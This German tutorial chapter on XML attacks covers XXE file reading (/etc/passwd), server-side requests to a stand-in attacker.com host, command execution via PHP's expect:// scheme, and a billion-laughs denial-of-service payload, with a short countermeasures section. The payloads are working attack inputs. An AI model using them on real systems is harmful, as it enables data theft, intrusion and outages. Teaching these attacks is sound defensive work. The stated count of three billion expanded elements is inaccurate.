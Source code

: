# XML-basierte Angriffe

Werden von einem Webserver XML-Daten entgegengenommen und serverseitig
bearbeitet, entstehen mehrere potentielle Angriffsvektoren. Zwei davon,
XML External Entities und XML-basierte DoS-Angriffe, werden in diesem
Kapitel betrachtet. Beide basieren darauf, dass XML ein komplexes
Datenformat besitzt welches durch einen ebenso komplexen Parser
serverseitig analysiert werden muss.

## XML External Entities

XML besitzt die Möglichkeit direkt innerhalb des XML-Dokuments
Typdefinitionen zu inkludieren. Diese DTD (Document Type Definition)
beginnt mit dem DOCTYPE Tag und kann auch External Entities definieren.
Diese External Entities sind Verweise auf externe Datenquellen, diese
werden durch den Parser automatisch in das XML-Dokument eingefügt.

Ein Beispiel für einen XML External Entities Angriff der auf die
Extraktion lokaler Daten zielt:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

Bei diesem Beispiel wird ein neues Element (*foo*), und als möglicher
Wert für dieses Element die externe Datenquelle /etc/passwd als Referenz
*&xxe* definiert. Anschließend wird dieser Elementtyp auch sofort samt
der Referenz verwendet. Erlaubt ein Server das Parsen dieses
XML-Dokumentes würde er nun diese Datei auslesen, deren Inhalt in das
XML Dokument einfügen und ggf. das ausgefüllte Dokument an den Client
zurückgeben. Somit kann der Angreifer auf eine Datei, auf die er
eigentlich keinen Zugriff besitzen sollte mit den Rechten des
Applikationsservers zugreifen.

Ebenso kann auf eine Netzwerkadresse verwiesen werden:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://www.attacker.com/text.txt" >
]>
<foo>&xxe;</foo>
```

In diesem Beispiel kann der Angreifer den XML-verarbeitenden Server dazu
bringen, mittels HTTP GET auf die übergebene URL
(<http://www.attacker.com/text.txt>) zuzugreifen. Dadurch ergeben sich
mehrere Angriffsmöglichkeiten:

- Der Angreifer kann den Webserver zum “Besuch” einer Webseite
  bringen, bei diesem Besuch wird zumeist auch die öffentliche
  IP-Adresse des Webservers auf dem besuchten Webserver vermerkt. Bei
  Inhalten die z.B. gegen das Verbotsgesetz verstoßen kann dies
  negative Publicity für den Betreiber des XML-verarbeitenden
  Webservers bewirken.

- Da der Zugriff vom XML-verarbeitenden Server ausgeht, kann der
  Angreifer einen HTTP GET Request auf interne Server absetzen, die
  ansonsten durch eine initiale Firewall blockiert gewesen wären.

- Der Angreifer kann ebenso auf *localhost*, sprich dem eigenen
  Server, zugreifen. Häufig werden interne Administrationsprogramme so
  konfiguriert, dass diese nur auf Localhost lauschen (als
  Sicherheitsmassname um remote Angreifern den Zugriff zu
  unterbinden). Im Zuge eines XML External Entity basierten Angriffs
  kann ein Angreifer diesen Schutz aushebeln und direkt auf localhost
  zugreifen.

- Bei einigen Protokollen (http, smb, cifs) werden automatisch Tokens
  und Credentials vom XML-verarbeitenden Server aus zum Zielserver
  verschickt. Ein Angreifer kann dies z.B. missbrauchen um bei einem
  Windows-basierten Server via SMB NTLM-Hashes zu extrahieren und
  gegen diese offline einen Brute-Force Angriff durchzuführen.

Ein XML External Entity kann auch auf virtuelle Adressen verweisen. So
wird z.B. vom PHP XML Parser als Schema *expect* angeboten. Bei diesem
Schema wird die übergebene URL als Systemkommando ausgeführt und dessen
Ergebnis in das XML-Dokument eingefügt. Ein Angreifer kann dies
missbrauchen um Systemkommands (Command Injection) auszuführen:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [ <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "expect://id" >
]>
<creds>
  <user>&xxe;</user>
  <pass>mypass</pass>
</creds>
```

In diesem Fall wird als Benutzername die Ausgabe des
UNIX-Systemkommandos *id* eingefügt.

## Gegenmaßnahmen

Die bevorzugte Gegenmaßnahme ist es, den verwendeten Parser so zu
konfigurieren, dass er keinen Zugriff auf XML External Entities zulässt.
Häufig wird auch die Verwendung “einfacherer” Dokumentenformate als
Gegenmaßnahme vorgeschlagen: dies ist allerdings IMHO nicht der beste
Weg, da auch die Parser einfacher Dokumentenformate (wie z.B. CSV und
JSON) ebenso Schwachstellen besitzen.

## Denial-of-Service Attacks

Ein weiteres Problem von External Entities ist es, dass hierdurch
schnell tiefe und breite Datenstrukturen aufgebaut werden können.
Versucht ein Parser nun diese Datenstruktur in-memory zu bauen, kann ein
Parser sehr schnell out-of-memory gehen und dadurch einen
Speicher-basierten DoS-Angriff durchführen.

Ein bekanntes Beispiel sind Million-Laugh Angriffe:

```xml
<!DOCTYPE root [
 <!ELEMENT root ANY>
 <!ENTITY LOL "LOL">
 <!ENTITY LOL1 "&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;&LOL;">
 <!ENTITY LOL2 "&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;&LOL1;">
 <!ENTITY LOL3 "&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;&LOL2;">
 <!ENTITY LOL4 "&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;&LOL3;">
 <!ENTITY LOL5 "&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;&LOL4;">
 <!ENTITY LOL6 "&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;&LOL5;">
 <!ENTITY LOL7 "&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;&LOL6;">
 <!ENTITY LOL8 "&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;&LOL7;">
 <!ENTITY LOL9 "&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;&LOL8;"> 
]>
<root>&LOL9;</root>
```

Bei dieser Angriffsart wird LOL9 durch 10 Elemente des Types LOL8
ersetzt. Jedes dieser 10 LOL8 Elemente wird mit mit 10 LOL7 Elementen
gebaut, etc. In Summe erzeugt dieses DTD rund drei Milliarden LOL
Elemente. Falls ein Parser versucht diese im Arbeitsspeicher zu
erstellen, wird dieser mit hoher Wahrscheinlichkeit nicht ausreichend
sein.
